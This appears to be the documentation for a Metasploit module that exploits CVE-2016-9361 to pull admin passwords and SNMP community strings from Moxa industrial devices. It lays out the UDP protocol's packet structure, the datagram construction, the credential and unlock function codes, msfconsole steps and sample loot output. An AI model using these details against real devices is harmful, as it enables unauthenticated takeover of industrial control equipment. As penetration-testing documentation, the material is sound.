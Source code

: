 ## Vulnerable Application
  Many Moxa devices make use of a protocol that is vulnerable to unauthenticated credential retrieval via exploitation of CVE-2016-9361.  The service is known 
  to be used on Moxa devices in the NPort, OnCell, and MGate product lines.
  
  This module leverages CVE-2016-9361 to retrieve admin passwords and SNMP 
  community strings, as well as enumerate all possible function codes.  The supporting research and Metasploit module are the work of Patrick DeSantis 
  of Cisco Talos and K. Reid Wightman.

  The module has been tested on Moxa NPort 6250 firmware v1.13, MGate MB3170 
  firmware v2.5, and NPort 5110 firmware v2.6.

### The Moxa Protocol
  The Moxa protocol listens on 4800/UDP and will respond to broadcast or direct traffic.  The protocol is utilized by devices in several product lines and 
  Moxa applications in order to manage and configure network-deployed devices.

#### Discovery / Identify
  A discovery packet compels a Moxa device to respond to the sender with some
  basic device information that is needed for more advanced functions.  The 
  discovery data is 8 bytes in length and is the most basic example of the Moxa protocol.  It may be sent out as a broadcast (destination 255.255.255.255) or
  to an individual device.

  The discovery request contains the bytes:
```
  \x01\x00\x00\x08\x00\x00\x00\x00
```
  Where the function code (first byte) 0x01 is Moxa discovery/identify
  and the fourth byte is the length of the full data payload.

##### Discovery Response
  A valid response is 24 bytes, starts with 0x81, and contains the values
  0x00, 0x90, 0xe8 (the Moxa OIU) in bytes 14, 15, and 16.
  
  A response with a value of 0x04 for the second byte indicates that an invalid
  function code was used in the corresponding request.

  The response can be broken down as follows:

  * Byte 0x0 identifies the packet as a response to the request. The first byte of a response will always be the FC + 0x80 (the most significant bit of the byte is set to 1, so 0b00000001 becomes 0b10000001, or 0x81 as response to identify 0x01).
  * Bytes 0x1-0x2 are unknown, may be padding
  * Byte 0x3 is the length of the datagram payload
  * Bytes 0x4-0x7 are unknown, may be padding
  * Bytes 0x8-0x9 may be the product line in little endian.  For example, an NPort 6250 is part of the 6000 line, so bytes 8 and 9 will be 0x00 and 0x60 respectively.
  * Bytes 0xA-0xB are unknown but always seem to be 0x00 and 0x80 respectively.
  * Bytes 0xC-0xD are the model number in little endian, so the NPort 6250 is 0x50 and 0x62 respectively.
  * Bytes 0xE-0x13 are the MAC address of the device
  * Bytes 0x14-0x17 are the IP address

  Here's a sample response from an NPort 6250 with the default IP address of 192.168.127.254 and a MAC of 00:90:e8:15:1c:22:
```
  0000  81  00  00  18  00  00  00  00  00  60  00  80  50  62  00  90
  0010  e8  15  1c  22  c0  a8  7f  fe	 	 	 	 	 	 	 	 

  Model:  0x50 0x60 = 6250
  MAC:  00:90:e8:15:1c:22
  IP: c0:a8:7f:fe = 192.168.127.254
```
#### Other Functions
  The values from the response are then used to craft a new request with the below format:

  * Byte 0x0 is the function code
  * Bytes 0x1-0x2 are unknown, may be padding
  * Byte 0x3 is the length of the datagram payload
  * Bytes 0x4-0x7 are unknown, may be padding
  * Bytes 0x8-0x9 are the product line in little endian
  * Bytes 0xA-0xB are the unknown 0x00 0x80
  * Bytes 0xC-0xD is the model number in big endian
  * Bytes 0xE-0x13 is the MAC

  The module takes a valid response from discovery/ident and parses out the appropriate bytes to use as a "tail" which is appended to all subsequent requests.
```
  tail = response[8..24]
```
  The tail is then used as shown below:
```
  datagram = fc[func] + "\x00\x00\x14\x00\x00\x00\x00" + tail
```
  For all function codes other than identify (0x01), as long as the "tail" values in the request match those of the target, the device will execute the function defined by the value in byte 0x0.

##### Other Known and Suspected Function Codes
  Function codes fall in the range of 0x01 to 0x7F.

  The below function codes are included in the module, even if unused.  The intent is that the user may modify the module as needed to make use of other function codes.
```
  'ident'         =>  "\x01",   # identify device
  'name'          =>  "\x10",   # get the "server name" of the device
  'netstat'       =>  "\x14",   # network activity of the device
  'unlock1'       =>  "\x16",   # "unlock" some devices, including 5110, MGate
  'date_time'     =>  "\x1a",   # get the device date and time
  'time_server'   =>  "\x1b",   # get the time server of device
  'unlock2'       =>  "\x1e",   # "unlock" 6xxx series devices
  'snmp_read'     =>  "\x28",   # snmp community strings
  'pass'          =>  "\x29",   # admin password of some devices
  'all_creds'     =>  "\x2c",   # snmp comm strings and admin password of 6xxx
```

## Verification Steps

  1. Start msfconsole
  2. Do: ```use auxiliary/admin/scada/moxa_credentials_recovery```
  3. Do: ```set RHOST <target IP>```
  4. Do: ```run```
  5. Any found credentials will be stored in loot (set VERBOSE to TRUE to have credentials output to console)

## Options

### RHOST

  Target device.

### FUNCTION

  Either CREDS (default) or ENUM:
  * CREDS attempts to retrieve administrative password and SNMP community strings
  * ENUM will enumerate all function codes in the range 0x2..0x7F

## Scenarios
### Check
  The module implements a check function to determine if a target "speaks" the Moxa protocol.  It does this using the 0x01 function code and checking for a valid response of 24 bytes, starting with 0x81, and containing the values 0x00, 0x90, 0xe8 (the Moxa OIU) in bytes 14, 15, and 16.
```
if response[0] == "\x81" && response[14..16] == "\x00\x90\xe8" && response.length == 24
```
### Output Hexdump to Console
  To output hexdump responses to console:
  ```
  msf > use auxiliary/admin/scada/moxa_credentials_recovery
  msf auxiliary(moxa_credentials_recovery) > set RHOST <target IP>
  msf auxiliary(moxa_credentials_recovery) > set VERBOSE TRUE
  msf auxiliary(moxa_credentials_recovery) > run
  ```
  Sample verbose output:
  ```
  ... SNIP...
  [*] Response:
  90 00 00 3c 00 00 00 00 00 60 00 80 50 62 00 90    |...<.....`..Pb..|
  e8 15 1c 22 4e 50 36 32 35 30 5f 35 38 39 36 00    |..."NP6250_5896.|
  10 00 11 00 12 00 13 00 14 00 15 00 16 00 17 00    |................|
  18 00 19 00 1a 00 1b 00 1c 00 1d 00                |............|
  ... SNIP ...

  [*] snmp community retrieved: public_admin
  [*] snmp read/write community retrieved: private_admin
  [*] password retrieved: secretpassword
  ... SNIP ...
  ```

### Enumerate All Function Codes
  To enumerate ALL function codes :

  ```
  msf > use auxiliary/admin/scada/moxa_credentials_recovery
  msf auxiliary(moxa_credentials_recovery) > set RHOST <target IP>
  msf auxiliary(moxa_credentials_recovery) > set FUNCTION ENUM
  msf auxiliary(moxa_credentials_recovery) > run
  ```
  Sample ENUM output:
  ```
  ... SNIP...
  [*] Function Code: 14    |.|


  [*] Response:
  94 00 01 08 00 00 00 00 00 60 00 80 50 62 00 90    |.........`..Pb..|
  e8 15 1c 22 0f 00 00 00 00 00 00 00 00 00 00 00    |..."............|
  00 00 00 00 00 00 00 00 00 00 00 00 c0 a8 7f fe    |................|
  00 00 c0 12 00 00 ff 00 00 00 00 00 00 00 00 00    |................|
  00 00 a1 00 00 00 00 00 00 00 00 00 c0 a8 7f fe    |................|
  00 00 89 00 00 00 00 00 00 00 00 00 c0 a8 7f fe    |................|
  00 00 24 13 01 01 ff 00 00 00 00 00 00 00 00 00    |..$.............|
  00 00 b5 03 00 00 00 00 00 00 00 00 c0 a8 7f fe    |................|
  00 00 34 3a 01 01 00 00 00 00 00 00 c0 a8 7f fe    |..4:............|
  00 00 17 00 01 01 00 00 00 00 00 00 c0 a8 7f fe    |................|               
  ... SNIP ...

  ```
  Note that the above response is an example of the utility of using ENUM.  This function code (0x14) returns a netstat-type response.  Output similar to the above will be displayed for every function code that does not return 'invalid' (0x4).  This may also be useful for devices that do not "unlock" using the function codes supplied in this module; by running through all function codes in sequence, it is likely that an alternate "unlock" function will be sent prior to any function codes that request credentials.

  NOTE: As the protocol is undocumented and the purpose of a majority of the function codes are unknown, undesired results are possible.  Do NOT use on devices which are mission-critical!
